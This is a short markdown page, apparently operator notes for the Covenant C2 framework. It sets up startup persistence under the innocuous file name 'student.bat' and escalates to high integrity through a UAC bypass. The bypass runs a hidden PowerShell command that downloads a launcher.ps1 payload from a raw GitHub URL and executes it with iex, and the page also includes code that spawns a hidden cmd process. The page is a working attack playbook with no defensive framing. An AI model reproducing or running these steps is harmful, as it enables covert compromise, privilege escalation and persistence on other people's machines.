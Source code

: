 ## Setup Persistance ([source](https://www.sevenlayers.com/index.php/370-covenant-c2-deep-dive))
- Visibility: none
- GruntTask: **PersistStartup**
- Payload: [here](https://raw.githubusercontent.com/sJ3Wpid/schoolproject/main/launcher.ps1)
- FileName: `student.bat`

## Get high integrity ([source](https://www.sevenlayers.com/index.php/370-covenant-c2-deep-dive))
### Step 1
- Visibility: none
- GruntTask: **SharpShell**
- Code:
```
var startInfo = new System.Diagnostics.ProcessStartInfo { FileName = @\"C:\Windows\System32\cmd.exe\", WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden }; var cmd = new System.Diagnostics.Process { StartInfo = startInfo }; cmd.Start(); return cmd.Id.ToString();
```
### Step 2
- Visibility: High (empty cmd window up to 2s)
- GruntTask: **BypassUACCommand**
- Command: `cmd.exe`
- Parameters: 
```
/c powershell -Sta -Nop -Window Hidden -Command iex (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/sJ3Wpid/schoolproject/main/launcher.ps1')
```
- Directory: none
- ProcessID: {output of step 1}
